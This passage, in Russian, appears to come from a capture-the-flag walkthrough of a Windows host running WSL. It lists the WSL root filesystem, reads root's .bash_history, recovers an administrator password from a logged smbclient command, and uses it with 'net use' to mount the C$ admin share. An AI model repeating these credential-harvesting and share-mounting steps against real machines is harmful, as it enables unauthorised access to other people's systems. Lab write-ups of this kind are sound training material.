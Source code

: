 ```text
06/21/2018  06:00 PM    <DIR>          lib64
06/21/2018  06:00 PM    <DIR>          media
06/21/2018  06:03 PM    <DIR>          mnt
06/21/2018  06:00 PM    <DIR>          opt
06/21/2018  06:00 PM    <DIR>          proc
06/22/2018  02:44 PM    <DIR>          root
06/21/2018  06:00 PM    <DIR>          run
06/22/2018  02:57 AM    <DIR>          sbin
06/21/2018  06:00 PM    <DIR>          snap
06/21/2018  06:00 PM    <DIR>          srv
06/21/2018  06:00 PM    <DIR>          sys
06/22/2018  02:25 PM    <DIR>          tmp
06/21/2018  06:02 PM    <DIR>          usr
06/21/2018  06:03 PM    <DIR>          var
               1 File(s)         87,944 bytes
              22 Dir(s)  33,248,010,240 bytes free
```

Отсюда можно заглянуть в `root` и точно так же посмотреть `.bash_history`:
```text
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>type .bash_history
type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exit
```

## ФС от админа
Что делать с полученными админскими кредами? Во-первых, можно подключиться к привилегированной шаре `C$`.

Сделать это можно прямо с Винды, не отходя от кассы:
```text
C:\Users\tyler>net use \\127.0.0.1\C$ /user:Administrator "u6!4ZwgwOM#^OBf#Nwnh"
net use \\127.0.0.1\C$ /user:Administrator "u6!4ZwgwOM#^OBf#Nwnh"
The command completed successfully.
```

